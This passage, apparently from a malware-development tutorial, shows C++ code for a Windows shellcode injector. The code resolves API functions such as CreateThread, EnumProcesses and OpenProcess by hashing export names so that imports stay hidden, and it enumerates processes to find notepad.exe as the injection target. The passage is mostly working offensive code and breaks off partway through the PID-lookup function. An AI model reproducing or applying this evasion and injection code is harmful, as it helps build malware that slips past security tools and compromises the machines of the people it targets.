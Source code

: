 ```c++
	// If yes, get its virtual memory address (this is where CreateThread function resides in memory of our process)
	for (DWORD i = 0; i < imageExportDirectory->NumberOfFunctions; i++)
	{
		DWORD functionNameRVA = addressOfNamesRVA[i];
		DWORD_PTR functionNameVA = (DWORD_PTR)libraryBase + functionNameRVA;
		char* functionName = (char*)functionNameVA;
		DWORD_PTR functionAddressRVA = 0;

		// Calculate hash for this exported function
		DWORD functionNameHash = getHashFromString(functionName);

		// If hash for CreateThread is found, resolve the function address
		if (functionNameHash == hash)
		{
			functionAddressRVA = addresOfFunctionsRVA[addressOfNameOrdinalsRVA[i]];
			functionAddress = (PDWORD)((DWORD_PTR)libraryBase + functionAddressRVA);
			// printf("%s : 0x%x : %p\n", functionName, functionNameHash, functionAddress);
			return functionAddress;
		}
		
	}
	return 0;
}
```

## Process Enumeration

> I have selected “notepad.exe” as the target process, so the shellcode will be injected into its memory.

To inject the shellcode, obtaining the ProcessID of the remote process is necessary. <span style = "color:lightgreen;">EnumProcesses</span> is used to retrieve the process identifier for each process object in the system. Then, iterate over each process using the PID to get the BaseName using <span style = "color:lightgreen;">EnumProcessModules</span> and <span style = "color:lightgreen;">GetModuleBaseNameW</span>. If the base of the basename of the process matches, it returns the PID of that process.

To achieve that, first, obtain the hash of the function and utilize the getFunctionAddressByHash function to resolve the function addresses.

```c++
DWORD getPID(const TCHAR* processName) {

	DWORD aProcesses[1024], cbNeeded, cProcesses;
	unsigned int i;

	PDWORD convertEnumProcesses = getFunctionAddressByHash((char*)"kernel32", 0xcd5e8a97);
	customEnumProcesses EnumProcesses = (customEnumProcesses)convertEnumProcesses;

	PDWORD convertOpenProcess = getFunctionAddressByHash((char*)"kernel32", 0x4105fc56);
	customOpenProcess OpenProcess = (customOpenProcess)convertOpenProcess;

	PDWORD covertEnumProcessModules = getFunctionAddressByHash((char*)"kernel32", 0x6333ef38);
	customEnumProcessModules EnumProcessModules = (customEnumProcessModules)covertEnumProcessModules;

	PDWORD convertGetModuleBaseNameW = getFunctionAddressByHash((char*)"psapi", 0x9bfc0a3e);
	customGetModuleBaseNameW getModuleBaseNameW = (customGetModuleBaseNameW)convertGetModuleBaseNameW;

	PDWORD convertCloseHandle = getFunctionAddressByHash((char*)"kernel32", 0xfaba0065);
	customCloseHandle CloseHandle = (customCloseHandle)convertCloseHandle;

```